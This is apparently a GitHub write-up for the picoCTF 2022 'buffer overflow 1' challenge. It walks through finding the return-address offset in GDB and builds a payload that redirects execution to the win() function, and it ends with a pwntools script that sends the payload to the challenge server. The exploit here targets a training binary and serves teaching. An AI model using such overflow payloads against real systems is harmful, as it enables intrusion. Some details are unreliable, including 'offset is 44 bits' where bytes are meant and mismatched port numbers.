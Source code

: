 
# buffer overflow 1

Challenge from picoCTF 2022.



## Challenge description

Control the return address

Additional details will be available after launching your challenge instance.

---
after you run instance:
Control the return address Now we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/251/vuln). You can view source [here](https://artifacts.picoctf.net/c/251/vuln.c). And connect with it using ```nc saturn.picoctf.net 55429```

## Explained

Download both files. Add permissions to run vuln ```chmod +x vuln```. You can run program. Check the code. You have to enter your string and then there is vuln() function. You can get flag if you will execute win() function. Run program using nc command. Try different inputs. Return adress from vuln() function is not static. You can controll it while overflowing the buffer.

Use GDB to determine adress of the win() function. ```gdb vuln``` then check information about functions using: ```info functions```. There you will find ```0x080491f6  win```. Use Overflow Exploit Pattern Generator then ```run``` program inside gdb, paste pattern as your string.

We can see that crash occures when we the return adress was overwritten with ```"EIP: 0x35624134 ('4Ab5')"```. 4Ab5 is string located on 45-48 inside generated pattern. It means that offest is 44 bits. Generate pattern with length equal 44 and add your 4 characters on the end. Test it using ```run``` again.

We have to replace your 4 characters to HEX adress of win function. Write it in little endian format. Now you have ```Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab\xf6\x91\x04\x08```. It's not working correctly when just pasted into ```run``` execution. We have to parse it using stream redirection character. We will also use echo with -ne flag (-n do not output the trailing newline; -e enable interpretation of backslash escapes).

Create flag.txt inside working directory, then run:
```bash
run < <(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab\xf6\x91\x04\x08")
```
Unfortunetly to get flag using network connection we will need another python script. We will use pwn (```pip install pwn```):

```python3
from pwn import *

add = ('saturn.picoctf.net')
soc = remote(add, 58234)

payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab\xf6\x91\x04\x08"

soc.sendline(payload)

print((soc.recvline()))
print((soc.recv()))
```

You will finally get the flag.


## 🔗 Links
[[https://play.picoctf.org/practice/challenge/258]](https://play.picoctf.org/practice/challenge/258)

